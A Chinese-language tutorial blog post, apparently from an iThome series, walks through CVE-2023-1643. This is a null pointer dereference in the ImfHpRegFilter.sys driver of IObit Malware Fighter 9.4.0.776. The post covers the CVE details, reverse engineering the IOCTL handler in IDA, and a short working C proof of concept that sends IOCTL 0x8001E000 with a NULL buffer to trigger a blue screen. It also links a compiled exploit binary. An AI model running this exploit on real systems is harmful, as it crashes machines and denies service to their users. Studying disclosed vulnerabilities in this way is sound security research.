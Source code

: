 # 【第 09 話】CVE-2023-1643 研究－Null Pointer Dereference

## 文章大綱
我們在[【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference](/asset/第%2008%20話) 攻擊 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys) 程式中的漏洞，造成系統的崩潰。

這篇要直接來找現實產品中的驅動程式曾經發生的類似漏洞，攻擊 IObit Malware Fighter 的 ImfHpRegFilter.sys 的 CVE-2023-1643，同樣是造成 Null Pointer Dereference。


## 介紹 CVE-2023-1643
首先來看看 [CVE-2023-1643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1643) 在 MITRE 的描述。

A vulnerability has been found in IObit Malware Fighter 9.4.0.776 and classified as problematic. Affected by this vulnerability is the function 0x8001E000/0x8001E004/0x8001E018/0x8001E01C/0x8001E024/0x8001E040 in the library ImfHpRegFilter.sys of the component IOCTL Handler. The manipulation leads to denial of service. Attacking locally is a requirement. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-224023.

直接用列點的方式抓重點。
- 軟體：[IObit Malware Fighter](https://www.iobit.com/en/malware-fighter.php) 9.4.0.776
- 元件：ImfHpRegFilter.sys
- 漏洞位置：IOCTL Handler 的 IoControlCode 0x8001E000、0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040
- 影響：DoS（Denial of Service）


## 介紹 ImfHpRegFilter.sys
從我的 GitHub 下載目標驅動程式檔案 [ImfHpRegFilter.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/ImfHpRegFilter.sys) 後在 VM 中載入，然後執行 [DriverView](https://www.nirsoft.net/utils/driverview.html)，可以看到剛剛載入的驅動程式。

![](DriverView.png)

對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 ImfHpRegFilter.sys 的數位簽章資訊，是 2019 年 12 月 17 日的簽章。

![](Signature.png)



## 逆向分析
很幸運的這個 CVE 的描述算是很齊全，畢竟有些 CVE 可能只會說軟體的版本跟造成的影響。

直接開 IDA 分析 ImfHpRegFilter.sys，從 `DriverEntry` 找到 Symbolic Link Name `Imf8HpRegFilter` 和 Dispatcher 的函數位址。

![](DriverEntry.png)


跟進 Dispatcher，根據 CVE 的描述，漏洞出在 IoControlCode 0x8001E000、0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040。先看 0x8001E000，這個 IoControlCode 實作的程式很短，跟[【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference](https://ithelp.ithome.com.tw/articles/10324544) 有相同的錯誤，就是沒有先檢查 SystemBuffer 是否為 NULL 就直接存取它而導致 Null Pointer Dereference。

![](Dispatcher.png)

其他 0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040 其實都是相同的狀況，這篇就不一一截圖。

## 寫程式
既然我們知道在 IoControlCode 0x8001E000 時，呼叫 `DeviceIoControl` 的 InputBuffer 給 NULL 就會導致 Null Pointer Dereference，我們可以很容易寫出攻擊腳本。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1643)。

```c
#define SymLinkName L"\\\\.\\Imf8HpRegFilter"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    DWORD dwWrite;
    
    // 輸入 NULL 會造成 ImfHpRegFilter.sys 的 Null Pointer Dereference
    DeviceIoControl(hDevice, 0x8001E000, NULL, 0, NULL, 0, &dwWrite, NULL);

    return 0;
}
```


## 測試
在 VM 中安裝 IObit Malware Fighter 9.4.0.776 或者直接載入 [ImfHpRegFilter.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/ImfHpRegFilter.sys) 後執行 [CVE-2023-1643.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/CVE-2023-1643.exe)，會看到 BSOD 如下圖。

![](BSOD.png)



## 參考資料
- [IObit Malware Fighter, ImfHpRegFilter.sys, DoS](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1643)
- [CVE-2023-1643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1643)